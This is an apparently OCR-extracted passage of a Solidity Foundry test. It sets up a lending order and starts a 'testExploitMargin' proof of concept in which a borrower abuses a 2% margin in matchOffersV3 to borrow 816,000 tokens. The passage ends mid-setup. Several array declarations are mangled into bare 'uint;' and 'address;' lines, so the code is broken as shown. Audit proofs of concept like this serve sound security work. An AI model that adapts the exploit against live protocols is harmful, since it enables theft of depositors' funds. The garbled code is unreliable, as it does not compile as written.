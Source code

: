 ```solidity
        oraclesCollaterals[0] = address(oracleCollateral);

        uint;
        maxLTVs[0] = 8000; // 80% max LTV

        uint;
        maxRatios[0] = 0; // Will be calculated using oracle

        LendOrder = DLOImplementation(
            DLOFactoryContract.createLendOrder(
                false,
                oraclesActivated,
                false,
                maxLTVs,
                5000, // APR
                864000, // Max Duration
                86400, // Min Duration
                acceptedCollaterals,
                address(principleToken),
                oraclesCollaterals,
                maxRatios,
                address(oraclePrinciple),
                1000000 ether // Available amount
            )
        );

        vm.stopPrank();

        // Approve tokens
        vm.startPrank(borrower);
        collateralToken.approve(address(BorrowOrder), 1000000 ether);
        vm.stopPrank();

        vm.startPrank(lender);
        principleToken.approve(address(LendOrder), 1000000 ether);
        vm.stopPrank();
    }

    function testExploitMargin() public {
        // Attacker (borrower) wants to exploit the 2% margin
        vm.startPrank(borrower);

        // Parameters for matchOffersV3
        address;
        lendOrders[0] = address(LendOrder);

        uint;
        lendAmountPerOrder[0] = 816000 ether; // Borrowing 816,000 PRIN tokens

        uint;
        porcentageOfRatioPerLendOrder[0] = 10000; // 100%

        address;
        principles[0] = address(principleToken);

        uint;
        indexForPrinciple_BorrowOrder[0] = 0;

        uint;
        indexForCollateral_LendOrder[0] = 0;

        uint;
        indexPrinciple_LendOrder[0] = 0;
```
